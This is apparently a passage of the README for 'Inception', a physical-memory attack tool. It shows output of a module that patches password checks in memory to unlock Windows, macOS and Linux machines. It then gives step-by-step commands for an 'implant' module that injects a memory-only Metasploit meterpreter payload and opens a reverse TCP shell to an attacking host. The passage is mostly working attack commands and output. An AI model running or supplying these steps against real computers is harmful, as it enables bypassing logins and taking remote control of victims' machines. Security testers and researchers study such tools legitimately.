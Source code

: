     [1] Windows 8 MsvpPasswordValidate unlock/privilege escalation
    [2] Windows 7 MsvpPasswordValidate unlock/privilege escalation
    [3] Windows Vista MsvpPasswordValidate unlock/privilege escalation
    [4] Windows XP MsvpPasswordValidate unlock/privilege escalation
    [5] Mac OS X DirectoryService/OpenDirectory unlock/privilege escalation
    [6] Ubuntu libpam unlock/privilege escalation
    [7] Linux Mint libpam unlock/privilege escalation
    
    [?] Please select target (or enter 'q' to quit): 2
    [*] Selected target: Windows 7 MsvpPasswordValidate unlock/privilege escalation
    [=============>                                                ]  227 MiB ( 22%)
    [*] Signature found at 0xe373312 in page no. 58227
    [*] Patch verified; successful
    [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!


### Implant

The `implant` module implants a (memory-only) Metasploit payload
directly to the volatile memory of the target machine. It integrates with MSF
through the `msfrpcd` daemon that is included in all versions of Metasploit.

The current version only work as a proof-of-concept against Windows 7 SP1 x86.
No other OSes, versions or architectures are supported, nor is there any
guarantee that they will be supported in the future.

#### Execution

To use it, start `msfrpcd`:

    msfrpcd -P [password]

Then launch inception in another terminal:

    incept implant --msfpw [password] --msfopts [options]

As an example, to create a reverse TCP meterpreter shell from the target
machine to your attacking host, first start the `msfrpcd` dameon, and then
launch a console listening for callbacks. 

    msfrpcd -P password
    msfconsole

In the console, we configure the receiving end of the payload. We're setting
the `EXITFUNC` option to `thread` to ensure that the target process stays alive
if something should go awry:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 172.16.1.1
    set EXITFUNC thread
    set ExitOnSession false
    exploit -j

Then, in another terminal, we launch Inception:

    incept implant --msfpw password --msfopts LHOST=172.16.1.1


[1]: http://inception.davepedu.com
[2]: https://wikileaks.org/spyfiles/files/0/293_GAMMA-201110-FinFireWire.pdf
[3]: http://freddie.witherden.org/tools/libforensic1394/
[4]: http://mxcl.github.io/homebrew/
[5]: http://www.breaknenter.org/projects/inception/
[6]: http://support.apple.com/en-us/HT202348
[7]: http://www.microsoft.com/en-us/download/details.aspx?id=41671
[8]: https://www.youtube.com/watch?v=0FoVmBOdbhg
[9]: http://www.w3schools.com/browsers/browsers_os.asp